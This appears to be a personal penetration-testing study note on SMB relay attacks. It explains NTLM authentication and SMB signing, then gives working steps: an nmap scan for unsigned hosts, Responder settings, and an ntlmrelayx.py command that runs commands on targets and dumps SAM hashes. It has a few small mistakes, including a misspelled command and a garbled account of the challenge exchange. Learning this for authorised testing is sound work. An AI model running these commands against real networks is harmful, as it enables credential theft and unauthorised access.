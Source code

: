 
# SMB Relay Attack
In an [SMB](/networking/protocols/SMB.md)-Relay attack, instead of attempting to crack the hashes gathered from the network with [Responder](/PNPT/PEH/active-directory/initial-vectors/responder.md), an attacker relays those hashes to other machines in the hopes that *one will allow them to gain access*.
## Basic Flow
SMB Relay takes advantage of regular authentication attempts by common automated systems on a network. These automated systems perform regular management tasks on devices on the network. To do so, they attempt to logon/ authenticate with any device which connects to the network using [NTLM](/networking/protocols/NTLM.md).
### Normal Function
The service tries to authenticate with the server. The server responds with a challenge, usually 'if you're really the user you say you are, then encrypt this challenge with the user's *password hash* and send it back.'

The service on the client encrypts the challenge w/ the user's password and sends the new value back to the server. The server decrypts the answer with the user's password and, if it decrypts to the original challenge it sent, it authenticates the service.
### Exploitation
An attacker can exploit this vulnerable exchange by capturing the traffic b/w the service and the server, modifying it, and essentially hijacking the authentication by the server of the service (the attacking machine gets authenticated instead).

By hijacking the authentication, the attacker gains access *to the target server which sent the challenge*.
![](PNPT/PNPT-pics/smbrelay.png)
> [Cowdex](https://cowdex.github.io/posts/smb-relay-attack/)
#### Requirements:
- SMB Signing disabled
- Admin credentials: the relayed user credentials *must be admin credentials* or you don't gain much from obtaining them. 
- Additionally, you can't relay the credentials to yourself (attacker). The credential *must be relayed to a different computer*.
## Exploitation
### Identify Hosts without SMB signing
First, we have to find hosts on the target network which have SMB signing disabled.
#### What is SMB signing?
SMB signing is a security mechanism added to the SMB protocol by Microsoft starting with Windows 2000. It protects the integrity of messages sent b/w a client and a server by signing each message with a signature generated via the session key.

This *prevents tampering of the message* by an attacker because any tampering will *change the hash*, thus signaling to the system that the message was compromised in-transit.
#### Using [nmap](/CLI-tools/linux/nmap.md)
Nmap has a script which will report back which hosts on the network have SMB signing disabled. To run it, just use:
```bash
┌──(hakcypuppy㉿kali)-[~]
└─$ nmap --script=smb2-security-mode.nse -p139,445 10.10.10.175
Starting Nmap 7.94 ( https://nmap.org ) at 2024-03-27 14:40 GMT
Nmap scan report for egotistical-bank.local (10.10.10.175)
Host is up (0.040s latency).

PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required  # here

Nmap done: 1 IP address (1 host up) scanned in 1.23 seconds
```
Regardless of the number of targets which come back as not requiring SMB signing, add each one to a file called `targets.txt`.
### Relay w/ [Responder](../../../../cybersecurity/TTPs/exploitation/tools/responder.md) & `smbrelayx.py`
Once we've found a good host, we're going to use a combination of Responder and `smbrelayx.py`to capture a hash and then relay if (using our own server) to the target.

First, we have to update our Responder configuration so it doesn't act as the server (since the impacket script will do that for us).
`/usr/share/responder/responder.conf`
```bash
[Responder Core]                                                           
; Servers to start                                                                
SQL = On                                                                        
SMB = Off    # this should be off
RDP = On
Kerberos = On
FTP = On
POP = On
SMTP = On
IMAP = On
HTTP = Off   # this should be off                                                     ...
```
#### Responder
The command we give to responder will tell Responder to listen on our specified interface and passively capture hashes on the network:
```bash
respnder -I eth0 -dwPv
```
- `d`: [DHCP](/networking/protocols/DHCP.md) (allows Responder to answer DHCP broadcast requests)
- `w`: [WPAD](/computers/windows/active-directory/WPAD.md) proxy server
- `P`: ProxyAuth (forces NTLM authentication)
- `v`: verbose
#### `ntlmrelayx.py`
The `ntlmrelayx.py` script is from python [impacket](../../../../cybersecurity/TTPs/exploitation/tools/impacket.md) which will handle relaying the hashes captured by responder to the target devices.
```bash
ntlmrelayx.py -tf targets.txt -smb2support -c 'whoami'
```
- `tf`: target file
- `-smb2support`: support SMB version 2
- `-c`: command to execute on target system
#### Success
Upon successful relay to the target, impacket will print the local SAM hashes for accounts on the target device. Ideally, one of those will be from an Administrator account.

> [!Resources]
> - [Microsoft: Overview of SMB signing](https://learn.microsoft.com/en-us/troubleshoot/windows-server/networking/overview-server-message-block-signing)
> - [Mark Baggett: SMB Relay Demystified...](https://www.sans.org/blog/smb-relay-demystified-and-ntlmv2-pwnage-with-python/)
> - [Cowdex: SMB Relay Attack](https://cowdex.github.io/posts/smb-relay-attack/)
> - My other notes (linked throughout), all of which can be found [here](https://github.com/TrshPuppy/obsidian-notes)



